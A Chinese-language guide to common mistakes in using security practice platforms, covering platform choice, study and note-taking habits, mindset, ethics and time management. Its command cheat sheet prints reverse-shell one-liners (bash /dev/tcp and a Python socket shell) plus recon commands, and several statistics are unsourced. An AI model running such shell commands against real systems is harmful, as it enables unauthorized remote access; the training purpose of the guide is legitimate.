



# 实战平台总汇：常见误区与避坑指南

在利用实战平台提升安全技能的过程中，许多学习者会反复陷入相同的陷阱。这些误区并非源于智力不足，而是缺乏经验指引和方法论认知。本节系统梳理六大类常见误区，剖析其背后成因，给出可执行的纠正方案，帮助读者少走弯路、高效成长。

## 误区全景图



## 一、平台选择误区

平台选择是学习的起点，选错方向往往导致大量时间和精力的浪费。以下三个误区在初学者中极为普遍。

### 1.1 误区一：贪多求全

**典型表现**：同时注册了 TryHackMe、HackTheBox、BUUCTF、CTFtime、VulnHub、Vulfocus、攻防世界、Pikachu、DVWA 等七八个甚至更多平台，每个平台花两三天"逛一圈"，然后不断寻找新平台。三个月后回头看，没有一个平台的完成率超过 20%。

**深层原因**：对学习效率的认知偏差。学习者误以为"接触面越广=学得越多"，实际上是"深度越深=能力越强"。网络安全技能的本质是**解决问题的能力**，这需要在特定环境中反复锤炼，而非蜻蜓点水式地遍历所有平台。

**真实后果**：根据安全社区的经验统计，同时维护 4 个以上活跃平台账户的学习者，其技能成长速度比专注 2-3 个平台的学习者慢约 40%-60%。原因很简单——分散注意力导致每次学习的"有效沉浸时间"大幅缩短，而深度学习需要连续 45 分钟以上的专注才能进入高效状态。

**正确做法**：采用"2+1"策略——选择 2 个核心平台长期深耕，外加 1 个备用平台用于调节节奏。

| 学习阶段 | 核心平台组合 | 备用平台 | 学习目标 |
|---------|------------|---------|---------|
| 入门期（0-3个月） | TryHackMe + DVWA | Pikachu | 建立基础概念，熟悉工具链 |
| 成长期（3-12个月） | HackTheBox + BUUCTF | 攻防世界 | 提升渗透能力，参加CTF竞赛 |
| 进阶期（12个月+） | 1个专项平台 + Vulhub | CyberDefenders | 深入特定方向，掌握漏洞原理 |

**操作建议**：在桌面或笔记软件中建立一个"平台仪表盘"，记录每个平台的：
- 当前完成进度（如 HackTheBox: 45/200 machines）
- 本周学习目标（如 "完成 Active Directory 系列 3 台靶机"）
- 遇到的技术卡点（如 "Kerberoasting 攻击原理不清"）

每周回顾一次，确保核心平台的学习节奏不被打断。

### 1.2 误区二：盲目追求高难度

**典型表现**：刚完成 TryHackMe 的 Beginner 路径就去挑战 HackTheBox 的 Insane 难度靶机，花了两周时间卡在一台机器上，最终靠看 writeup 才通过，但感觉什么都没学到。此后产生自我怀疑，甚至放弃学习。

**深层原因**：混淆了"受挫感"和"有效学习"。在教育心理学中，维果茨基的**最近发展区（ZPD）理论**指出：最有效的学习发生在"略高于当前能力"的任务上——不是跳起来够不到，而是踮起脚能够到。过于困难的任务会激活大脑的焦虑反应，抑制前额叶皮层的认知功能，反而降低学习效率。

**真实后果**：直接挑战远超自身水平的靶机，学习者通常会经历三个阶段：
1. **盲目尝试期**（第 1-3 天）：凭直觉尝试各种方法，效率极低
2. **焦虑放弃期**（第 4-7 天）：感到挫败，频繁切换思路，甚至开始怀疑自己
3. **Writeup 依赖期**（第 7 天+）：被迫看答案，但因基础不牢，看不懂或记不住

**正确做法**：遵循阶梯式难度递进原则。

```text
入门难度 ──→ 简单难度 ──→ 中等难度 ──→ 困难难度 ──→ 专家难度
  │              │              │              │              │
  │              │              │              │              │
TryHackMe    HTB Easy      HTB Medium    HTB Hard      HTB Insane
Beginner     (1-2天/台)    (3-5天/台)    (1-2周/台)    (2周+/台)
(0.5-1天/台)
```

**关键指标**：如果一台靶机超过预期时间的 3 倍仍未完成，说明当前难度偏高。建议先回到上一难度级别巩固 2-3 台后再尝试。

**HackTheBox 靶机难度参考时间表**（基于中等水平学习者）：

| 难度 | 预期完成时间 | 所需技能点 | 通过率 |
|-----|------------|----------|-------|
| Easy | 1-3 小时 | 基本信息收集、常见Web漏洞、简单提权 | ~70% |
| Medium | 3-8 小时 | 多步利用、服务漏洞、中级提权技术 | ~45% |
| Hard | 1-3 天 | 深度枚举、非标漏洞利用、复杂提权链 | ~25% |
| Insane | 3-7 天 | 多层漏洞组合、创新利用思路、极深枚举 | ~12% |

### 1.3 误区三：只看排名不重质量

**典型表现**：在 BUUCTF 或 CTFtime 上疯狂刷简单题，一个月做了 200+ 道签到题，但遇到中等难度题目仍然无从下手。追求排行榜排名，把大量时间花在"已掌握"类型的题目上。

**深层原因**：将"数量积累"错误等同于"能力提升"。这在认知科学中被称为**"流畅性错觉"（Fluency Illusion）**——当重复做已经会的题目时，大脑会产生"我很熟练"的错觉，但实际能力并没有增长。

**正确做法**：建立"难度梯度追踪"机制，确保每月的练习中：
- 60% 时间花在"舒适区边缘"的题目（略有挑战但能独立完成）
- 30% 时间花在"学习区"的题目（需要思考和查阅资料）
- 10% 时间花在"恐慌区"的题目（尝试挑战，允许失败）

**自我检测清单**：
- [ ] 最近 10 道题中，有多少道需要参考外部资料？
- [ ] 去年做过的题目，现在能否独立复现？
- [ ] 遇到新类型的题目，是否有系统的分析思路？

如果全部选"是"，说明学习质量良好；如果大部分选"否"，需要调整策略。

## 二、学习方法误区

学习方法决定了"有效转化率"——同样的投入时间，方法得当者能获得数倍于他人的收获。

### 2.1 误区一：过早查看 Writeup

**典型表现**：拿到一道题，尝试 5 分钟没有头绪就去 Google 搜索 writeup，看完答案后恍然大悟"原来是这样"，然后继续下一题。一天做了 20 道题，但实际上只有 2-3 道真正理解了。

**深层原因**：大脑的**"理解错觉"（Illusion of Understanding）**——当看到一个合理的解题过程时，大脑会将其误认为"我也能想到"。实际上，从"看到答案觉得合理"到"独立想出解法"之间存在巨大的认知鸿沟。

**危害量化**：研究表明（来源：Kornell & Bjork, 2008），在学习初期就查看答案的学习者，其长期记忆保持率比独立思考后再查看答案的学习者低约 50%。也就是说，你花 1 小时看 writeup 学到的东西，可能 2 天后就忘掉一半。

**正确做法：三层过滤法**

1. **第一层：独立探索（30-60 分钟）**
   - 不搜索任何资料，仅凭已有知识和工具尝试
   - 记录所有尝试过的方法和结果（即使失败了）
   - 重点记录"卡在哪里"和"为什么卡住"

2. **第二层：定向求助（15-30 分钟）**
   - 查看平台提供的提示（Hint），而非直接看 writeup
   - 搜索相关的技术文档或教程（如某个工具的官方文档）
   - 只针对卡住的具体技术点进行学习

3. **第三层：Writeup 深度学习（30-45 分钟）**
   - 阅读 writeup 时，重点关注**思路和方法**，而非具体命令
   - 在笔记本上用自己的话重新描述解题过程
   - 读完后关闭 writeup，尝试独立复现整个流程
   - 如果某一步仍然无法独立完成，重复前两层

**Writeup 阅读记录模板**：

```markdown
## 题目：[名称]
**日期**：2026-XX-XX
**平台**：[HTB/BUUCTF/...]
**难度**：[Easy/Medium/Hard]

### 我的尝试
- 尝试方法1：[描述] → 结果：[成功/失败]，原因：[分析]
- 尝试方法2：[描述] → 结果：[成功/失败]，原因：[分析]

### Writeup 关键思路
- 核心漏洞：[描述]
- 利用链：[step1] → [step2] → [step3]
- 关键技巧：[我之前没想到的点]

### 我的收获
- 新学到的技术：[列表]
- 需要补充的知识：[列表]
- 类似题目的通用解法：[总结]
```

### 2.2 误区二：只做不记

**典型表现**：每周在 HackTheBox 上完成 3-5 台靶机，但从不做笔记、不写 writeup、不整理工具。三个月后被问到"三个月前那台 XXX 靶机你是怎么拿 shell 的"，完全想不起来。

**深层原因**：人类的记忆遵循**艾宾浩斯遗忘曲线**——新学到的知识在 24 小时后会遗忘约 66%，一周后遗忘约 75%。没有笔记系统的加持，大部分实战经验会随时间消散。

**正确做法：建立三层笔记体系**

| 层级 | 内容 | 工具建议 | 更新频率 |
|-----|------|---------|---------|
| 即时记录 | 每台靶机的解题过程、遇到的问题、关键命令 | Jupyter Notebook / Markdown | 每次实战后 |
| 知识提炼 | 按技术方向整理的知识点、通用方法论 | Obsidian / Notion | 每周 |
| 工具手册 | 常用命令速查、自定义脚本、环境配置 | Git 仓库 / Gist | 按需更新 |

**Obsidian 知识库推荐结构**：

```text
📁 安全知识库
├── 📁 Web安全
│   ├── SQL注入.md
│   ├── XSS攻击.md
│   ├── SSRF利用.md
│   └── 文件上传绕过.md
├── 📁 提权技术
│   ├── Linux提权.md
│   ├── Windows提权.md
│   └── 容器逃逸.md
├── 📁 工具手册
│   ├── Nmap速查.md
│   ├── Burp Suite技巧.md
│   └── 自定义脚本/
├── 📁 靶机记录
│   ├── 2026-01 HackTheBox-XXX.md
│   └── 2026-02 BUUCTF-XXX.md
└── 📁 学习计划
    └── 月度复盘.md
```

**关键命令速记示例**（整理到工具手册中）：

```bash
# 信息收集
nmap -sC -sV -oA initial <target>
nmap -p- --min-rate 10000 -oA allports <target>
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 反弹Shell
bash -i >& /dev/tcp/<ip>/<port> 0>&1
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# 提权检查
linpeas.sh | tee linpeas-output.txt
python3 -c 'importpty;pty.spawn("/bin/bash")'
```

### 2.3 误区三：忽视基础知识

**典型表现**：热衷于学习 SQL 注入、反序列化、RCE 等高级漏洞利用技术，但不知道 TCP 三次握手的细节，不会用 `tcpdump` 抓包，不理解 Linux 文件权限的含义，Python 写脚本时连 `requests` 库的基本用法都不熟练。

**深层原因**：基础知识是"不可见的能力"。高级技术的炫酷容易被感知，而基础知识的价值需要在实际遇到问题时才能体会。这种**"可感知性偏差"**导致许多学习者本末倒置。

**危害场景举例**：
- 不理解 HTTP 协议 → 看不懂 Burp Suite 的请求/响应包 → 无法判断哪些参数可以利用
- 不会 Linux 基本操作 → 拿到 shell 后不知道如何枚举系统 → 提权阶段寸步难行
- 不懂编程 → 无法编写自定义 exploit → 只能依赖现成工具，遇到工具失效就束手无策
- 不了解数据库 → 拿到 SQL 注入点后不知道如何利用 → 无法提取敏感数据

**正确做法：基础知识自测表**

完成以下自测，诚实评估自己的基础水平：

**Linux 基础（及格标准：至少 8/10）**
- [ ] 能独立配置 SSH 密钥登录
- [ ] 理解文件权限（rwx、chmod、chown）
- [ ] 熟练使用 find、grep、awk、sed 等文本处理工具
- [ ] 能编写简单的 Bash 脚本
- [ ] 理解 systemd 服务管理
- [ ] 能查看和分析系统日志
- [ ] 理解用户/组管理
- [ ] 能配置 iptables/nftables 基本规则
- [ ] 熟悉包管理工具（apt/yum/dnf）
- [ ] 能进行基本的性能排查（top/htop/ps/df）

**网络基础（及格标准：至少 6/8）**
- [ ] 能画出 TCP 三次握手/四次挥手的流程图
- [ ] 理解 DNS 解析过程
- [ ] 能用 Wireshark/tcpdump 抓包分析
- [ ] 理解 HTTP/HTTPS 协议细节
- [ ] 了解常见的端口和服务对应关系
- [ ] 能配置简单的端口转发
- [ ] 理解 VPN 和代理的工作原理
- [ ] 能分析简单的网络拓扑

**编程基础（及格标准：至少 5/8）**
- [ ] 能用 Python 编写网络请求脚本
- [ ] 能解析 JSON/XML 数据
- [ ] 能编写简单的自动化脚本
- [ ] 理解编码/解码（Base64、URL编码等）
- [ ] 能编写简单的 Socket 程序
- [ ] 能使用 Python 的 subprocess 模块
- [ ] 能处理文件读写和异常
- [ ] 能使用正则表达式

如果多项未达标，建议暂停高级漏洞学习，花 2-4 周集中补强基础知识。TryHackMe 的 "Linux Fundamentals" 和 "Networking Fundamentals" 路径是很好的补课选择。

### 2.4 误区四：单打独斗

**典型表现**：完全独自学习，遇到问题只靠搜索引擎，不与任何人交流。不加入任何社区，不参加 CTF 比赛，不读别人的 writeup。

**深层原因**：社交恐惧或"独自学习效率更高"的错误认知。实际上，网络安全是一个**快速变化的领域**，单靠个人力量很难跟上最新的攻击技术和防御方案。

**正确做法：分阶段融入社区**

| 阶段 | 行动 | 目标 |
|-----|------|------|
| 初级 | 加入 1-2 个 Discord/Telegram 安全社区，先观察学习 | 了解社区文化和常用术语 |
| 中级 | 开始在社区提问，参与讨论，分享自己的 writeup | 建立技术交流网络 |
| 高级 | 组建或加入 CTF 战队，参加比赛，参加安全会议 | 团队协作能力，行业人脉 |

**推荐社区**：
- **Discord**：HTB 官方 Discord、TryHackMe 官方 Discord、CTFtime 各战队 Discord
- **中文社区**：先知社区、FreeBuf、看雪安全论坛、安全客
- **GitHub**：关注知名安全工具仓库的 Issues 和 Discussions
- **线下活动**：各大安全会议（XCon、ISC、补天白帽大会等）的 CTF 赛事

## 三、技术实践误区

技术实践是将理论转化为能力的关键环节。以下误区会严重阻碍实战能力的提升。

### 3.1 误区一：工具依赖症

**典型表现**：离开 Metasploit 不会渗透，离开 sqlmap 不会注入，离开 Nmap 不会扫描。遇到工具无法使用或目标环境受限时完全不知所措。

**深层原因**：将"会用工具"等同于"会做安全"。实际上，工具只是手的延伸，真正的核心能力是**解决问题的思路和方法论**。一个理解 HTTP 协议和浏览器安全模型的安全研究者，即使没有 Burp Suite，也能用 Python + curl 完成相同的工作。

**真实案例**：
- 2023 年某次 CTF 比赛中，主办方故意封禁了 sqlmap，约 30% 的参赛者因此无法完成 SQL 注入题目，尽管题目的注入点非常明显。
- 某企业渗透测试中，由于目标环境无法使用外网工具，测试人员需要从零编写 Python 脚本来完成信息收集和漏洞利用，这对纯"工具流"测试者是巨大挑战。

**正确做法：工具使用的"三七原则"**

- **30% 的时间使用现成工具**：提高效率，快速完成常规任务
- **70% 的时间理解原理并尝试手动实现**：建立底层认知

**具体练习方案**：
1. **手动 Nmap 扫描**：用 `netcat`（nc）手动进行端口扫描
   ```bash
   # 手动扫描单个端口
   nc -zv <target> 80
   # 用 Bash 循环扫描 Top 1000 端口
   for port in $(seq 1 1000); do
     nc -zv -w1 <target> $port 2>&1 | grep -i open
   done
   ```
2. **手动 SQL 注入**：用 Burp Suite 或 curl 手动构造注入 payload
3. **手动反弹 Shell**：理解每种反弹 Shell 的原理，能用 Python/socket 手写
4. **编写自己的枚举工具**：用 Python + requests 实现目录扫描器

### 3.2 误区二：忽视信息收集

**典型表现**：拿到目标 IP 后直接跑 sqlmap 或 dirb，不进行系统性的信息收集。结果遗漏了关键信息（如隐藏目录、子域名、特定服务版本），导致后续攻击路径选择错误，浪费大量时间。

**深层原因**：对渗透测试方法论的理解不够深入。专业渗透测试中，信息收集通常占总时间的 40%-60%。正如军事领域的名言："情报是胜利的一半"——在渗透测试中同样适用。

**正确做法：系统化信息收集清单**



**信息收集工具链**：

| 阶段 | 工具 | 用途 | 时间投入 |
|-----|------|------|---------|
| 被动收集 | whois、dig、nslookup | DNS 和域名信息 | 10 分钟 |
| 被动收集 | Google Hacking、Shodan | 搜索引擎情报 | 15 分钟 |
| 被动收集 | GitHub dorking、Pastebin | 代码和敏感信息泄露 | 10 分钟 |
| 主动收集 | Nmap、Masscan | 端口扫描和服务识别 | 15 分钟 |
| 主动收集 | WhatWeb、Wappalyzer | Web 技术栈识别 | 5 分钟 |
| 主动收集 | Gobuster、Feroxbuster | 目录和子域名枚举 | 20 分钟 |
| 漏洞发现 | Nuclei、Nikto | 自动化漏洞扫描 | 15 分钟 |

**关键原则**：在信息收集阶段花 1 小时，可能在后续利用阶段节省 5 小时。永远不要急着动手，先"看清楚"目标。

### 3.3 误区三：只关注 Web 方向

**典型表现**：只练习 Web 安全题目（SQL 注入、XSS、文件上传等），完全忽视二进制安全、密码学、逆向工程、内网渗透、移动安全等方向。

**深层原因**：Web 安全的入门门槛低、学习资源丰富、漏洞利用直观，容易给人"只需要学 Web 安全就够了"的错觉。但真实的企业安全环境中，攻击者往往需要跨领域知识才能完成高级攻击。

**忽视其他方向的真实后果**：
- 不懂逆向工程 → 遇到混淆后的恶意软件无法分析
- 不懂密码学 → 无法识别和利用加密实现中的漏洞
- 不懂内网渗透 → 拿到初始 shell 后无法在企业网络中横向移动
- 不懂二进制安全 → 无法分析和利用客户端漏洞（如浏览器漏洞）

**正确做法：构建"T型"知识结构**

```text
            广度（了解各方向基础）
    ──────────────────────────────────
    │  Web  │ 二进制 │ 密码学 │ 内网 │ ...
    │       │       │       │      │
    │       │       │       │      │
    │  深   │       │       │      │
    │  度   │       │       │      │
    │ （精  │       │       │      │
    │  通） │       │       │      │
    │       │       │       │      │
```

**各方向最低了解标准**：
- **二进制安全**：能用 GDB 基本调试，理解栈溢出原理，会用 pwntools
- **密码学**：理解常见加密算法（AES/RSA）的基本原理，能识别 ECB/CBC 模式的弱点
- **逆向工程**：能用 Ghidra/IDA 查看简单程序的反汇编代码
- **内网渗透**：理解 Active Directory 基础，会使用 BloodHound 进行路径分析
- **移动安全**：能用 jadx 反编译 Android APK，理解 Android 权限模型

### 3.4 误区四：忽视防御思维

**典型表现**：只学习"怎么攻"，不学习"怎么防"。能利用漏洞获取权限，但不知道如何修复漏洞、如何检测攻击行为、如何设计安全架构。

**深层原因**：攻防不对称的认知。学习者往往被攻击技术的"破坏力"所吸引，忽视了防御同样需要深厚的技术功底。实际上，优秀的安全顾问需要同时具备攻击和防御能力——只会攻击的人是"黑客"，攻防兼备的人才是"安全专家"。

**行业数据**：根据 LinkedIn 2024 年安全岗位需求报告，具备蓝队技能（检测、响应、防御）的安全工程师需求增长了 45%，而纯红队岗位增长仅为 15%。市场对"攻防兼备"人才的需求远超纯攻击型人才。

**正确做法：建立攻防双向思维**

学习每个攻击技术时，同时思考三个防御问题：
1. **如何检测**：这个攻击在日志中会留下什么痕迹？
2. **如何防御**：系统/网络层面如何阻止这个攻击？
3. **如何修复**：代码层面如何根除这个漏洞？

**建议练习**：
- 在完成 HackTheBox 靶机后，写一段"防御建议"，说明如何在生产环境中避免该漏洞
- 体验 LetsDefend 或 CyberDefenders 等蓝队平台，练习日志分析和事件响应
- 阅读 OWASP Top 10 的每一条，理解对应的防御措施

## 四、心态误区

心态决定学习的持久性。许多技术优秀的学习者最终放弃，不是因为能力不足，而是心态出了问题。

### 4.1 误区一：急于求成

**典型表现**：期望一个月内从零基础达到 OSCP 水平，学习三天看不到明显进步就焦虑，看到别人三个月拿到 Offer 就觉得自己太慢。

**深层原因**：社交媒体和安全社区中的"幸存者偏差"。人们倾向于分享成功经历（"我三个月拿到 OSCP！"），而不会分享漫长的学习过程和无数次失败。这制造了一种"别人都很快，只有我很慢"的假象。

**现实数据**：根据 OffSec 官方统计，OSCP 认证的平均备考时间约为 6-12 个月，通过率约为 30%。那些"三个月速成"的案例要么有深厚的基础积累，要么是极少数的天赋异禀者。

**正确做法**：建立合理的阶段性目标体系。

**6 个月学习路径示例**：

| 月份 | 目标 | 里程碑 |
|-----|------|-------|
| 第 1 个月 | 基础知识补强 | 完成 TryHackMe 基础路径，掌握 Linux/网络基础 |
| 第 2 个月 | 工具熟练度 | 熟练使用 Nmap/Burp Suite/Metasploit，完成 5 台 HTB Easy |
| 第 3 个月 | 漏洞理解 | 理解 OWASP Top 10，完成 DVWA 全部关卡 |
| 第 4 个月 | 提升实战能力 | 完成 5 台 HTB Medium，开始写系统性笔记 |
| 第 5 个月 | CTF 参与 | 参加 2-3 场 CTF 比赛，建立个人 GitHub Portfolio |
| 第 6 个月 | 综合提升 | 完成 3 台 HTB Hard，准备安全认证考试 |

### 4.2 误区二：害怕失败

**典型表现**：看到一道题的标题或描述就判断"这太难了我做不出来"，然后跳过。不敢参加 CTF 比赛因为怕排名太低。做完一道题发现解法和 writeup 不同就觉得自己"做错了"。

**深层原因**：**固定型思维模式**（Fixed Mindset）——认为能力是天生的、固定的，失败意味着自己"不行"。与之相对的是**成长型思维模式**（Growth Mindset）——认为能力可以通过努力和学习不断提升，失败是成长的机会。

**正确做法：重新定义"失败"**

- 在实战平台上，**没有"做不出来"这回事**——只有"现在还做不出来"
- 一台靶机花了一周才完成？恭喜，你在这个过程中学到的东西可能比一天做完一台的更多
- Writeup 的解法和你不同？只要能殊途同归，说明你掌握了多种思路
- CTF 比赛排名靠后？你获得的实战经验远比排名更有价值

**实操建议**：建立"失败日志"，记录每次"失败"中学到的东西：
```markdown
## 失败记录 #12
**日期**：2026-03-15
**场景**：HTB 靶机 XXX，卡在提权阶段 3 天
**最终结果**：看了 writeup 才完成
**我的收获**：
- 学到了 Linux capabilities 的利用方法
- 发现自己对 /proc 文件系统不够了解
- 下次遇到类似情况的思路：先检查 capabilities → cron → SUID → kernel exploit
```

### 4.3 误区三：盲目比较

**典型表现**：看到同龄人在知名安全公司工作、在 CTF 比赛中获奖、在博客上发表高质量技术文章，就觉得自己差距太大，产生强烈的挫败感。

**深层原因**：**比较维度错误**。你看到的是别人的"高光时刻"，却不知道他们背后花了多少时间、经历了多少失败。每个人的起点、学习节奏、可投入时间都不同，横向比较几乎没有意义。

**正确做法：建立个人基线，纵向比较**

1. **记录起点**：在学习开始时，诚实地评估自己的基础水平（用上面的基础知识自测表）
2. **定期回顾**：每月回顾一次，对比"现在的我"和"上个月的我"
3. **量化进步**：
   - "这个月我独立完成了 X 台 Easy 难度靶机"（上个月只有 Y 台）
   - "我能在 Z 分钟内完成基础信息收集"（上个月需要 2Z 分钟）
   - "我的 Writeup 笔记库增长了 N 篇"

### 4.4 误区四：忽视职业道德

**典型表现**：在学习了攻击技术后，在未获得授权的系统上"试试看"；将从靶场学到的攻击手法用于真实目标；在社区中炫耀对真实系统的攻击成果。

**深层原因**：对法律风险的认知不足，以及"技术好奇心"压过了"法律意识"。

**严重后果**：
- 在中国，《网络安全法》《刑法》第 285/286 条明确规定，未经授权侵入计算机系统属于犯罪行为，可处三年以下有期徒刑或拘役
- 即使是"测试性质"的扫描和探测，未经授权也可能触犯法律
- 多起真实案例：某安全研究员因未经授权测试某网站而被追究刑事责任

**正确做法：建立安全的实践习惯**

1. **绝对红线**：未经授权，不对任何非自己所有的系统进行任何安全测试
2. **白名单原则**：只在以下环境中练习——
   - 专门的实战平台（HTB、THM、BUUCTF 等）
   - 本地搭建的靶场环境（Vulhub、DVWA 等）
   - 明确提供授权的安全测试项目
3. **负责任披露**：如果在合法研究中发现真实系统的漏洞，遵循负责任披露流程（如通过 CVE 申请、厂商安全邮箱报告等），而非公开利用
4. **法律学习**：了解所在国家/地区的网络安全法律法规，知道哪些行为是合法的、哪些是违法的

## 五、时间管理误区

高效的时间管理是长期学习的关键保障。

### 5.1 误区一：无计划学习

**典型表现**：今天想学 SQL 注入就学 SQL 注入，明天看到一篇关于内网渗透的文章又转去学内网，完全没有系统性。学了半年，知识体系仍然是零散的点，没有形成完整的线和面。

**深层原因**：缺乏对安全技能体系的整体认知，不知道"该学什么"和"先学什么后学什么"。

**正确做法：制定"螺旋式"学习计划**

螺旋式学习计划的核心是：**每个周期覆盖所有核心领域，但深度逐轮递增**。

```text
第1轮（基础覆盖）：Web基础 → 基础工具 → Linux基础 → 简单CTF
    ↓
第2轮（深度扩展）：Web进阶 → 工具链 → 提权技术 → 中等CTF
    ↓
第3轮（专精方向）：选定方向深入 → 自动化 → 内网/二进制 → 高级CTF
```

**每周学习计划模板**：

| 时间段 | 周一 | 周二 | 周三 | 周四 | 周五 | 周末 |
|-------|------|------|------|------|------|------|
| 晚间2小时 | HTB靶机 | 知识整理 | HTB靶机 | 脚本编写 | HTB靶机 | 自由/CTF |
| 周末半天 | - | - | - | - | - | 复盘+计划 |

**关键原则**：
- 每周至少 3 次实战练习（每次 1.5-2 小时）
- 每周 1 次笔记整理和知识提炼
- 每月 1 次学习计划回顾和调整
- 留出弹性时间应对突发情况

### 5.2 误区二：过度投入

**典型表现**：连续几天熬夜做靶机，严重影响工作和生活。把所有业余时间都投入到安全学习中，忽视了身体健康、社交关系和个人爱好。

**深层原因**：对"刻意练习"理论的片面理解。研究表明，专家级表现需要大量练习，但**有效的练习时间**每天上限约为 4 小时（来源：K. Anders Ericsson 的刻意练习研究）。超过这个时间，练习质量会急剧下降，且身体和心理的疲劳会导致学习效率变为负数。

**正确做法**：遵循"有节制的高效"原则
- 每天有效学习时间控制在 2-3 小时
- 每 45 分钟休息 10-15 分钟（番茄钟工作法）
- 每周至少安排 1 天完全不碰安全学习的"休息日"
- 保持规律运动——研究表明运动能显著提升大脑的认知功能和学习效率

### 5.3 误区三：碎片化学习

**典型表现**：在通勤路上刷几篇安全文章，午休时看 10 分钟视频教程，晚上睡前做一道简单题。看似每天都在"学习"，但知识点之间没有连接，深度思考严重不足。

**深层原因**：对学习类型的混淆。学习分为两种类型：
- **消费型学习**：被动接收信息（看文章、看视频）——适合碎片时间
- **创造型学习**：主动思考和实践（做靶机、写脚本、分析漏洞）——需要整块时间

碎片时间只适合消费型学习，而安全技能的提升主要依赖创造型学习。

**正确做法**：区分"碎片时间"和"整块时间"的用途

| 时间类型 | 适合活动 | 示例 |
|---------|---------|------|
| 碎片时间（<30分钟） | 复习笔记、阅读技术文章、浏览安全新闻 | 通勤时复习 Obsidian 笔记 |
| 中等时间（30-60分钟） | 完成一道简单题目、编写一个小脚本 | 午休时做一道 CTF 签到题 |
| 整块时间（>90分钟） | 完成一台靶机、深入学习一个技术专题 | 晚间完成一台 HTB 靶机 |

**核心原则**：宁可每天专注学习 1.5 小时，也不要全天碎片化"学习" 4 小时。

## 六、进阶建议

除了避免上述误区，以下进阶建议能帮助你在实战平台上获得更大的收益。

### 6.1 建立个人品牌

- 在 GitHub 上维护个人安全工具仓库和 Writeup 仓库
- 撰写技术博客，分享高质量的分析文章
- 在 CTFtime 上维护战队 Profile
- 参与开源安全项目的贡献

### 6.2 从学习者到贡献者

当你在平台上积累了足够经验后，可以：
- 为平台贡献题目（如 HackTheBox 的作者计划）
- 撰写详细的教程和指南帮助新人
- 在社区中回答他人的问题
- 发现并报告平台的漏洞（通过负责任披露）

### 6.3 持续跟进安全动态

安全领域的技术更新极快，昨天的最佳实践可能明天就过时。建议：
- 关注安全领域的重要博客（如 PortSwigger Research、Project Zero Blog）
- 订阅安全漏洞通告（如 CVE、NVD）
- 参加安全会议和 Webinar
- 关注安全社区中的新技术讨论

## 七、本节小结



避免这些常见误区能够帮助你更高效地利用实战平台提升技能。最后，用一张表总结所有误区及核心纠正原则：

| 误区类别 | 核心误区 | 纠正原则 |
|---------|---------|---------|
| 平台选择 | 贪多求全 | "2+1"策略：2 核心 + 1 备用 |
| 平台选择 | 盲目追难度 | 阶梯式递进，保持在"学习区" |
| 平台选择 | 只看排名 | 60/30/10 难度分配原则 |
| 学习方法 | 过早看 Writeup | 三层过滤法：独立探索→定向求助→深度学习 |
| 学习方法 | 只做不记 | 三层笔记体系：即时记录→知识提炼→工具手册 |
| 学习方法 | 忽视基础 | 基础知识自测表，先补短板 |
| 学习方法 | 单打独斗 | 分阶段融入社区 |
| 技术实践 | 工具依赖症 | "三七原则"：30% 用工具，70% 理解原理 |
| 技术实践 | 忽视信息收集 | 系统化收集清单，信息收集占 40%-60% 时间 |
| 技术实践 | 只关注 Web | 构建"T型"知识结构 |
| 技术实践 | 忽视防御思维 | 攻防双向思维：检测→防御→修复 |
| 心态 | 急于求成 | 6 个月阶段性目标体系 |
| 心态 | 害怕失败 | 成长型思维，建立"失败日志" |
